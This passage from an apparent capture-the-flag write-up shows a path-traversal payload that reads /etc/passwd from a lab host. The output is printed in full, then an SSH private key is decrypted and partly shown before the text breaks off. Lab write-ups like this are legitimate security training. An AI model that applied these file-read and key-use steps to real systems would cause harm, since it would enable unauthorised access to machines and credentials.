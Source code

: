     =====================================================================
    ID           Response   Lines    Word       Chars       Payload                                   
    =====================================================================

    000000100:   200        26 L     38 W       1404 Ch     "6" 

Going to **`http://10.0.0.24/php-scripts/file.php?6=../../../../../../../etc/passwd`** we can read the **`/etc/passwd`** file on the remote machine.

    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
    www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
    backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
    irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
    gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
    nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
    _apt:x:100:65534::/nonexistent:/usr/sbin/nologin
    systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
    systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
    systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
    messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
    sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
    cromiphi:x:1000:1000:cromiphi,,,:/home/cromiphi:/bin/bash
    systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin

>

    root@kali ~/D/M/Hat# cat passwd | grep "/bin/bash"
    root:x:0:0:root:/root:/bin/bash
    cromiphi:x:1000:1000:cromiphi,,,:/home/cromiphi:/bin/bash

The user **`cromiphi`** is on **`SSH`**, let's try to connect to it using the private key we found. But firstly we need to decrypt the private key using the passphrase we got found.

    root@kali ~/D/M/Hat [1]# openssl rsa -in id_rsa -out decrypted_id_rsa
    Enter pass phrase for id_rsa:
    writing RSA key

    root@kali ~/D/M/Hat# cat decrypted_id_rsa 
    -----BEGIN RSA PRIVATE KEY-----
    MIIEpAIBAAKCAQEAnCusFfdi2p2d42fvqp2yOhPaqmTjjljwMZdT8wQNJfGJ1FrZ
    kBt+oSIgLEnXHQy1sfQL/MPWV4Mb1OsC/ZO/1E44CDup39d6vYv+/rk2zIXG251b
    k3eYf6LQtA+AdbVmU769EdFZMGGvAe2uuKekrlDrRLu5OIyXHooIllF+NZPgfXct
    krzDU6MrCvXIePXYXOYLqdz8QlQGdCd7JciVLvezykHkW/htT6ke9UW+adahDN/c
    maJfrqDMD9/smi7hbw7zCp6EuvfZgqxdustRjBSOzqYVCRY73YCx2G5pP5jQbFGY
    u3tl/l8LEMw/OPBd7QvX5lkcieh4roJTS2xW+QIDAQABAoIBAEoRBFqeq4mXe0xg
    /O/kPqUAyZJKqwnV8IT0imIVJ885EO9f7xNDlvkA4FVg597lKj8tyYmlr8BtdAO1
    OgPd0Pr15ekxss1wusuu288fNHgncjqyFL6J2A+gvm7Hc1tgHxnUuoL60Nv7WC8H
    9PequpXZ1tsQVTYWp41aVdxE5iCuNDrWqauqzyH4ve5cK/dys4dq7MKYAjtMQXXT
    0fgCzI0SioaF8u/LcrlCwzf/VWB6LRSNiNKpxJx4EIsqwroddowAYaFONNkmzKKZ
    i9AI2bJJYkXJ8zH7ZdyxVTX/B57Ijsq8bO80qC2FFDBKjGSi2HQz0uN4WP+an+qJ
    nAeKDgECgYEA5SebMeUyonA6WPTXTpjRxHBQIVd6sU4aUaLSKWnc/xT/vW9XWKOV
    WPWQ+/xpTgExZygmAdpPqiAgHOQyJXddJuCwBAKGIkk2ik29uruW9NJFFaCoqmiN
    nTeljqowNtJQKeX0FrWmJmpoO6KY97pEsEjL3ZPlwI+ZUo0KN+uOJiECgYEArndC
    IBAj7ReYdcgWc4UwwO83rKLUX/qL/zk7S1gXGim5TdUF+h8XGpKdqMGGdR8ZYLaZ
    B6IpayG2XCe/Y04biWxD1uKrw2QA4PX9Me7GpAayCERf0MHrLSJ+dq+ASbyyTxgn

[1]: "https://vk9-sec.com/ssh2john-how-to/"
[2]: "[awd](https://gtfobins.github.io/gtfobins/nmap/)"